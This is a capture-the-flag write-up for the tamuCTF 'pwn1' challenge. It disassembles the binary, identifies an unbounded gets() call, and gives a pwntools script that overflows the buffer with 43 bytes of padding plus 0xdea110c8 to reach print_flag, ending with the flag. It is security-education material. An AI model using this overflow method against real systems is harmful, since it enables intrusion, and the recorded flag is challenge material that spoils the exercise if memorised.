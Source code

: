 # tamuCTF: pwn

## pwn1
### Assumeably the easiest among the pwn challenges, I started the approach by running the 32-bit executable. We get asked by a prompt which reads: 
```Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see. What... is your name?```
### Given the prompt and disassembly from gdb, I deduced that there is a string check for these questions. So what I did was use the command line utility *strings* on the binary and I got answers for the first two questions:
```Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
I don't know that! Auuuuuuuugh!
What... is your quest?
To seek the Holy Grail.
What... is my secret?
```
### We now passed the first two questions, leaving us with only one more whose answer isn't shown up on strings or anywhere else. Fired up gdb-peda and disassembled the binary to have a deeper look into it. Disassembling the main function results into:
```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x00000779 <+0>:	lea    ecx,[esp+0x4]
   0x0000077d <+4>:	and    esp,0xfffffff0
   0x00000780 <+7>:	push   DWORD PTR [ecx-0x4]
   0x00000783 <+10>:	push   ebp
   0x00000784 <+11>:	mov    ebp,esp
   0x00000786 <+13>:	push   ebx
   0x00000787 <+14>:	push   ecx
   0x00000788 <+15>:	sub    esp,0x40
   0x0000078b <+18>:	call   0x600 <__x86.get_pc_thunk.bx>
   0x00000790 <+23>:	add    ebx,0x1820
   0x00000796 <+29>:	mov    eax,DWORD PTR [ebx+0x44]
   0x0000079c <+35>:	mov    eax,DWORD PTR [eax]
   0x0000079e <+37>:	push   0x0
   0x000007a0 <+39>:	push   0x0
   0x000007a2 <+41>:	push   0x2
   0x000007a4 <+43>:	push   eax
   0x000007a5 <+44>:	call   0x580 <setvbuf@plt>
   0x000007aa <+49>:	add    esp,0x10
   0x000007ad <+52>:	mov    DWORD PTR [ebp-0xc],0x2
   0x000007b4 <+59>:	mov    DWORD PTR [ebp-0x10],0x0
   0x000007bb <+66>:	sub    esp,0xc
   0x000007be <+69>:	lea    eax,[ebx-0x1620]
   0x000007c4 <+75>:	push   eax
   0x000007c5 <+76>:	call   0x550 <puts@plt>
   0x000007ca <+81>:	add    esp,0x10
   0x000007cd <+84>:	sub    esp,0xc
   0x000007d0 <+87>:	lea    eax,[ebx-0x15b5]
   0x000007d6 <+93>:	push   eax
   0x000007d7 <+94>:	call   0x550 <puts@plt>
   0x000007dc <+99>:	add    esp,0x10
   0x000007df <+102>:	mov    eax,DWORD PTR [ebx+0x40]
   0x000007e5 <+108>:	mov    eax,DWORD PTR [eax]
   0x000007e7 <+110>:	sub    esp,0x4
   0x000007ea <+113>:	push   eax
   0x000007eb <+114>:	push   0x2b
   0x000007ed <+116>:	lea    eax,[ebp-0x3b]
   0x000007f0 <+119>:	push   eax
   0x000007f1 <+120>:	call   0x530 <fgets@plt>
   0x000007f6 <+125>:	add    esp,0x10
   0x000007f9 <+128>:	sub    esp,0x8
   0x000007fc <+131>:	lea    eax,[ebx-0x159f]
   0x00000802 <+137>:	push   eax
   0x00000803 <+138>:	lea    eax,[ebp-0x3b]
   0x00000806 <+141>:	push   eax
   0x00000807 <+142>:	call   0x510 <strcmp@plt>
   0x0000080c <+147>:	add    esp,0x10
   0x0000080f <+150>:	test   eax,eax
   0x00000811 <+152>:	je     0x82f <main+182>
   0x00000813 <+154>:	sub    esp,0xc
   0x00000816 <+157>:	lea    eax,[ebx-0x1584]
   0x0000081c <+163>:	push   eax
   0x0000081d <+164>:	call   0x550 <puts@plt>
   0x00000822 <+169>:	add    esp,0x10
   0x00000825 <+172>:	sub    esp,0xc
   0x00000828 <+175>:	push   0x0
   0x0000082a <+177>:	call   0x560 <exit@plt>
   0x0000082f <+182>:	sub    esp,0xc
   0x00000832 <+185>:	lea    eax,[ebx-0x1564]
   0x00000838 <+191>:	push   eax
   0x00000839 <+192>:	call   0x550 <puts@plt>
   0x0000083e <+197>:	add    esp,0x10
   0x00000841 <+200>:	mov    eax,DWORD PTR [ebx+0x40]
   0x00000847 <+206>:	mov    eax,DWORD PTR [eax]
   0x00000849 <+208>:	sub    esp,0x4
   0x0000084c <+211>:	push   eax
   0x0000084d <+212>:	push   0x2b
   0x0000084f <+214>:	lea    eax,[ebp-0x3b]
   0x00000852 <+217>:	push   eax
   0x00000853 <+218>:	call   0x530 <fgets@plt>
   0x00000858 <+223>:	add    esp,0x10
   0x0000085b <+226>:	sub    esp,0x8
   0x0000085e <+229>:	lea    eax,[ebx-0x154d]
   0x00000864 <+235>:	push   eax
   0x00000865 <+236>:	lea    eax,[ebp-0x3b]
   0x00000868 <+239>:	push   eax
   0x00000869 <+240>:	call   0x510 <strcmp@plt>
   0x0000086e <+245>:	add    esp,0x10
   0x00000871 <+248>:	test   eax,eax
   0x00000873 <+250>:	je     0x891 <main+280>
   0x00000875 <+252>:	sub    esp,0xc
   0x00000878 <+255>:	lea    eax,[ebx-0x1584]
   0x0000087e <+261>:	push   eax
   0x0000087f <+262>:	call   0x550 <puts@plt>
   0x00000884 <+267>:	add    esp,0x10
   0x00000887 <+270>:	sub    esp,0xc
   0x0000088a <+273>:	push   0x0
   0x0000088c <+275>:	call   0x560 <exit@plt>
   0x00000891 <+280>:	sub    esp,0xc
   0x00000894 <+283>:	lea    eax,[ebx-0x1534]
   0x0000089a <+289>:	push   eax
   0x0000089b <+290>:	call   0x550 <puts@plt>
   0x000008a0 <+295>:	add    esp,0x10
   0x000008a3 <+298>:	sub    esp,0xc
   0x000008a6 <+301>:	lea    eax,[ebp-0x3b]
   0x000008a9 <+304>:	push   eax
   0x000008aa <+305>:	call   0x520 <gets@plt>
   0x000008af <+310>:	add    esp,0x10
   0x000008b2 <+313>:	cmp    DWORD PTR [ebp-0x10],0xdea110c8
   0x000008b9 <+320>:	jne    0x8c2 <main+329>
   0x000008bb <+322>:	call   0x6fd <print_flag>
   0x000008c0 <+327>:	jmp    0x8d4 <main+347>
   0x000008c2 <+329>:	sub    esp,0xc
   0x000008c5 <+332>:	lea    eax,[ebx-0x1584]
   0x000008cb <+338>:	push   eax
   0x000008cc <+339>:	call   0x550 <puts@plt>
   0x000008d1 <+344>:	add    esp,0x10
   0x000008d4 <+347>:	mov    eax,0x0
   0x000008d9 <+352>:	lea    esp,[ebp-0x8]
   0x000008dc <+355>:	pop    ecx
   0x000008dd <+356>:	pop    ebx
   0x000008de <+357>:	pop    ebp
   0x000008df <+358>:	lea    esp,[ecx-0x4]
   0x000008e2 <+361>:	ret    
End of assembler dump.
```
### We see that the prompts for the first two questions get user input via fgets, which is a quite secure way of getting user input. But the third question at address ```0x0000089b``` uses a gets() call for input, which is vulnerable to buffer overflow attacks. It is also important to note that the program also checks if the answer for the third question is equal to ```0xdea110c8``` before it proceeds to the ```print_flag``` function. So the exploit method for this challenge will be a buffer overflow into controlling an argument. But before we head that, we do a deeper analysis of the code block that happens before and after the gets call. 
```
   0x000008a0 <+295>:	add    esp,0x10
   0x000008a3 <+298>:	sub    esp,0xc
   0x000008a6 <+301>:	lea    eax,[ebp-0x3b]
   0x000008a9 <+304>:	push   eax
   0x000008aa <+305>:	call   0x520 <gets@plt>
   0x000008af <+310>:	add    esp,0x10
   0x000008b2 <+313>:	cmp    DWORD PTR [ebp-0x10],0xdea110c8
```
### What this does is allocates space on the stack for some variables, which is the array buffer in this case, and pushes a pointer to ```[ebp-0x3b]``` , which is the address for the array buffer, on the stack. After the gets call, a compare instruction is done at address ```[ebp-0x10]``` if the contents is in fact equal to ```0xdea110c8```. So it becomes clearer that we have to overwrite the contents of ```[ebp-0x3b]``` to ```[ebp-0x10]```, which has a difference of 43 which is the offset we need to overflow the buffer. And we proceed with the exploitation.
```exploit.py```
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4321
conn = remote(HOST,PORT)

#: Exploit code
offset = 'A' * 43
secret = p32(0xdea110c8)
exploit = offset + secret

#: Send data
print(conn.recv())
conn.sendline('Sir Lancelot of Camelot')
print(conn.recv())
conn.sendline('To seek the Holy Grail.')
print(conn.recv())
conn.sendline(exploit)
print(conn.recv())
print(conn.recv())
```
### And we then get the flag! 
```
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?

What... is your quest?

What... is my secret?

Right. Off you go.
gigem{34sy_CC428ECD75A0D392}
```
## Flag: gigem{34sy_CC428ECD75A0D392}
